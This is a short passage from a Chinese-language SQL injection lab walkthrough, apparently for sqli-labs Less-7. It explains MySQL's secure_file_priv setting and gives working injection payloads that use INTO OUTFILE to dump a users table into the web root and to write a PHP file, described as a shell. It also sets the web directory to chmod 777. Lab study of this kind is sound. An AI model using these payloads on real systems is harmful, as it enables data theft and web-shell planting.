 当`secure_file_priv`为`/tmp`时，表示限制`mysql`只能在`/tmp`目录下导入导出。

当`secure_file_priv`为`空`时，表示限制`mysql`不对导入导出做限制。

这里还需要赋予文件写入的权限

```bash
$ chmod -R 777 /var/www/html
```

然后执行sql语句

```sql
?id=1'))union select * from security.users into outfile "/var/www/html/Less-7/user.txt"%23
```

![image-20250310220651812](sql注入/image-20250310220651812.png)

这里也可以写入shell

```sql
?id=1'))union select 1,2,"<?php phpinfo();?>" into outfile "/var/www/html/Less-7/info.php"%23
```
